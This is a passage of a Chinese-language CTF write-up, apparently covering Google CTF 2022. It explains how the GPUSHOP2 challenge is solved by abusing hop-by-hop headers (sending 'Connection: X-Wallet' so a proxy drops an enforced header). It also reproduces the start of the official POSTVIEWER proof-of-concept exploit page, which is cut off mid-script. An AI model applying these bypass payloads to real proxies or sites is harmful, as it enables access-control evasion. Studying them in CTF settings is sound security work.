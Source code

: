 如此一來，最後 main thread 有空做事情的時候，我們的 iframe 就已經載入好了，也就可以拿到資料。

### GPUSHOP2 (7 solves)

這題是從去年改的，去年的解法可以參考這邊：https://github.com/ComdeyOverFlow/Google_CTF_2021/blob/main/gpushop.md

我沒有很仔細看，但應該就是把某一段 path 做 URL encode 導致 proxy 沒配對到路徑之類的。

今年的版本把去年的問題修掉了，無論如何都先加一個 `X-Wallet: EMPTY` 的 header，所以去年的解法就沒辦法使用。

最後的解法是 hop-by-hop headers，這是什麼東西呢？

HTTP request headers 可以分成兩種類型：

1. End-to-end
2. Hop-by-hop

因為你發 HTTP request 的時候中間可能會經過 proxy 對吧？而 Hop-by-hop 的話就是給 proxy 看的 header，proxy 會對它做一些處理，處理完之後可能就不會 forward 給下一個 server。

底下幾個都屬於 hop-by-hop headers：

1. Connection
2. Keep-Alive
3. Proxy-Authenticate
4. Proxy-Authorization
5. TE
6. Trailers
7. Transfer-Encoding
8. Upgrade

除此之外呢，根據 spec 的定義，放到 `Connection` 裡面的 headers 也應該被當成 hop-by-hop，例如說：

```
Connection: close, X-Foo, X-Bar
```

就是叫 proxy 要把 X-Foo 跟 X-Bar 當成 hop-by-hop，把它移除掉，不會繼續發送給下一個 proxy。

因此這一題就可以利用這個功能，把 `X-Wallet` 給移除：

```
Connection: X-Wallet
```

更多相關研究可以參考這篇文章：https://nathandavison.com/blog/abusing-http-hop-by-hop-request-headers

## POSTVIEWER 腳本備份

備份一下官方解答腳本，裡面看起來是用 postMessage + onmessage 來達到非同步的無窮迴圈的效果，滿有趣的。

``` html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <title>POC Vulnerable website</title>
</head>
<body>
    <h1>Click me!</h1>
    <iframe style="width:1px;height:1px" name="loop"></iframe>
    <pre id="log"></pre>
    <script>
        const URL = 'https://postviewer-web.2022.ctfcompetition.com';
        const sleep = (d) => new Promise((r) => setTimeout(r, d));
        function notify(...args){
            navigator.sendBeacon('', args);
            console.log(...args);
        }
        async function load(win, url) {
```